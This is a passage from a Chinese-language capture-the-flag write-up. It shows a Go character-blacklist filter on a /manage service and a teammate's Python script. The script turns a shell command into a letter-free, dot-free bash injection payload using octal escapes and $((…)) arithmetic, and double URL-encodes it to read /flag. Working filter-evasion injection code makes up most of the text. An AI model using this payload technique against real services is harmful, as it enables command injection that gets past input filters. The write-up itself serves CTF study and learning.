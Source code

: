 但是`/manage`服务还带个waf：

```go
func waf(c string) bool {
	var t int32
	t = 0
	blacklist := []string{".", "*", "?"}
	for _, s := range c {
		for _, b := range blacklist {
			if b == string(s) {
				return false
			}
		}
		if unicode.IsLetter(s) {
			if t == s {
				continue
			}
			if t == 0 {
				t = s
			} else {
				return false
			}
		}
	}

	return true
}
```

不能有点，星号和问号和字母。和之前安洵的题目差不多了（之后再学一下这个），贴一下Jiang的脚本，他加了2层url编码：



```python
from urllib.parse import quote
n = dict()
n[0] = '0'
n[1] = '${##}'
n[2] = '$((${##}<<${##}))'
n[3] = '$(($((${##}<<${##}))#${##}${##}))'
n[4] = '$((${##}<<$((${##}<<${##}))))'
n[5] = '$(($((${##}<<${##}))#${##}0${##}))'
n[6] = '$(($((${##}<<${##}))#${##}${##}0))'
n[7] = '$(($((${##}<<${##}))#${##}${##}${##}))'

f=''

def str_to_oct(cmd):
    s = ""
    for t in cmd:
        o = ('%s' % (oct(ord(t))))[2:]
        s+='\\'+o
    return s

def build(cmd):
    payload = "$0<<<$0\<\<\<\$\\\'"
    s = str_to_oct(cmd).split('\\')
    for _ in s[1:]:
        payload+="\\\\"
        for i in _:
            payload+=n[int(i)]
    return payload+'\\\''

print(quote(quote("123;"+build("cat /flag"))))

```

